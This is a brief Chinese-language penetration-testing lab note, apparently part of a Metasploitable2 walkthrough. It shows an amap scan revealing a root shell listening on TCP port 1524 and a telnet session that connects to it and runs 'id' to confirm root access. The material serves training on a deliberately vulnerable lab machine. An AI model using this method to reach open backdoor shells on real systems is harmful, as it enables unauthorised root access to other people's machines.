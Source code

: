 ## Telnet后门

0、使用amap扫描，里面有这么一条信息
Unrecognized response from 192.168.199.169:1524/tcp (by trigger http) received.
Please send this output and the name of the application to vh@thc.org:
0000:  726f 6f74 406d 6574 6173 706c 6f69 7461    [ root@metasploita ]
0010:  626c 653a 2f23 20                          [ ble:/#           ]

我去一个tcp连接 通过http触发,还能用浏览器访问这个端口

```bash
#直接使用
[root@kali: ~#] telnet metasploitable2 1524 
root@metasploitable:/# root@metasploitable:/# id
uid=0(root) gid=0(root) groups=0(root)
```

